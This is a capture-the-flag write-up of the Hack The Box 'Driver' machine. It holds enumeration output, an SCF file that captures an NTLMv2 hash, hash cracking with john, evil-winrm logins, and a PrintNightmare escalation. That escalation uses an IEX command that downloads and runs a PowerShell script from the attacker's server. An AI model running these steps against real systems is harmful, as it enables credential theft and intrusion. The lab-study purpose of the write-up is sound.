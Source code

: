 ```yaml
---
title: Hackthebox Driver Writeup
slug: hackthebox-driver-writeup
description: Hackthebox release new machine called driver, in this machine we have permission to upload Firmware Update and we abuse that permission with SMB Share SCF File Attacks and get the hash of tony user crack that hash and login with his account with help of evil-winrm and for privesc i use PrintNightmare LPE exploit for generate user as administrator and login with that user with help of evil-winrm.
date: 2021-10-04
image: hackthebox-driver-writeup.webp
---
```



## Nmap

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ nmap -sC -sV -oA nmap/result 10.10.11.106
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-03 00:11 CDT
Nmap scan report for 10.10.11.106
Host is up (0.086s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-03T12:11:52
|_  start_date: 2021-10-03T11:42:52

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.64 seconds
```

There are three ports open `80:http,135:RPC,445:SMB`

Let's start with `RPC` enumeration.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ rpcdump.py @10.10.11.106
Impacket v0.9.23.dev1+20210416.153120.efbe78bb - Copyright 2020 SecureAuth Corporation

[*] Retrieving endpoint list from 10.10.11.106
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
          ncacn_ip_tcp:10.10.11.106[49408]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\DRIVER[PIPEInitShutdown]
          ncalrpc:[WMsgKRpc07AFF0]

Protocol: N/A
Provider: winlogon.exe
UUID    : 76F226C3-EC14-4325-8A99-6A46348418AF v1.0
Bindings:
          ncalrpc:[WindowsShutdown]
          ncacn_np:\DRIVER[PIPEInitShutdown]
          ncalrpc:[WMsgKRpc07AFF0]
          ncalrpc:[WMsgKRpc07C601]

--------------snip-------------------

[*] Received 464 endpoints.
```

We use `PrintNightmare` exploit against `Print System Remote Protocol` but for that we need user `creads` so let's move further.

<FixTheImageURL src='cmd.png' slug='hackthebox-driver-writeup' />

Same with the `smb` we need creads for `listing` the shares.

## Port-80

When we go to the `ip` it's asking for `username` and `passsword`.

<FixTheImageURL src='web.png' slug='hackthebox-driver-writeup' />

I try `default` creads like `admin:admin` and it's `work`.

<FixTheImageURL src='web1.png' slug='hackthebox-driver-writeup' />

We are inside `home` page.

<FixTheImageURL src='web2.png' slug='hackthebox-driver-writeup' />

When i go inside `Firmware` Updates there is a option for `uploading` firmware and the name of the site is `MFP Firmware Update Center`.

We can search any `exploit` for that `related` name.

<FixTheImageURL src='web3.png' slug='hackthebox-driver-writeup' />

I can't find any `exploit` for that related name but we can `imagine` that when we `upload` the file the `server` saves the file inside `smb` share.

So rather `searching` for exploit we can try `SCF File Attacks`.

Link : https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

Create a file called `@exploit.scf` and change the `ip`.

## @exploit.scf

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ cat @exploit.scf
[Shell]
Command=2
IconFile=\10.10.14.116sharepentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

After that start the `responder` for capturing the `hashes`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ responder -wrf --lm -v -I tun0
```

Upload the `scf` file and click on `submit`.

<FixTheImageURL src='web4.png' slug='hackthebox-driver-writeup' />

Now check your `responder` we got the hash `captured`

<FixTheImageURL src='cmd1.png' slug='hackthebox-driver-writeup' />

```js
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER	ony
[SMB] NTLMv2 Hash     : tony::DRIVER:6f09da70e73b9237:674092FE6EC25CB23CBB01D554A9B854:0101000000000000DEB3B39E53B8D70144991278610991070000000002000400270027000000000000000000
```

Now let's crack the `hash` with `john`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2021-10-03 00:42) 10.00g/s 327680p/s 327680c/s 327680C/s softball27..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Now we have the `passsword` let's use `evil-winrm` to login inside machine and get the `user.txt`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver]
└──╼ [★]$ evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:/Users/tony/Documents> type ../Desktop/user.txt
4936df48c2c5217ac7e9b78f5a70c45a
*Evil-WinRM* PS C:/Users/tony/Documents>
```

<FixTheImageURL src='cmd2.png' slug='hackthebox-driver-writeup' />

## Privilege escalation

Now we are inside the `machine` and we also have creads so let's use `PrintNightmare exploit` because we see in the `rpcdump` `Print System Remote Protocol` is enabled.

Link : https://github.com/calebstewart/CVE-2021-1675

Let's upload the `ps1` script with help of `evil-winrm`.

```js
*Evil-WinRM* PS C:/Users/tony/Desktop> upload /root/Desktop/HTB/Driver/CVE-2021-1675.ps1
Info: Uploading /root/Desktop/HTB/Driver/CVE-2021-1675.ps1 to C:/Users/tony/Desktop/CVE-2021-1675.ps1

Data: 238080 bytes of 238080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:/Users/tony/Desktop>
```

But we can't `import` the script becuase `ExecutionPolicy` is `Restricted`.

```js
*Evil-WinRM* PS C:/Users/tony/Desktop> Import-Module .\cve-2021-1675.ps1
File C:/Users/tony/Desktop/cve-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module ./cve-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
*Evil-WinRM* PS C:/Users/tony/Desktop>
```

We can `conform` that with the help of `Get-ExecutionPolicy` command.

```js
*Evil-WinRM* PS C:\Users\tony\Desktop> Get-ExecutionPolicy
Restricted
*Evil-WinRM* PS C:\Users\tony\Desktop>
```

So we can `bypass` that with the help of `download` the file with help of `IEX` command.

The `advantage` of this command is it's `automatically` import the file after `download`.

Let's start the `python` server.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver/www]
└──╼ [★]$ ls
CVE-2021-1675.ps1
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver/www]
└──╼ [★]$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now let's `download` the file with `IEX` command.

```js
*Evil-WinRM* PS C:Users	onyDesktop > IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.116/CVE-2021-1675.ps1')
```

<FixTheImageURL src='cmd3.png' slug='hackthebox-driver-writeup' />

Now it's imported `automatically` let's create new user with `Invoke-Nightmare` command.

```js
*Evil-WinRM* PS C:Users	onyDesktop > Invoke-Nightmare -NewUser "dedsec" -NewPassword "dedsec@123"
```

now `connect` to the machine with new `username and passsword` and get `root.txt`.

```js
┌───[us-free-1]─[10.10.14.116]─[root@parrot]─[~/Desktop/HTB/Driver/www]
└──╼ [★]$ evil-winrm -i 10.10.11.106 -u dedsec -p dedsec@123
```

<FixTheImageURL src='cmd4.png' slug='hackthebox-driver-writeup' />
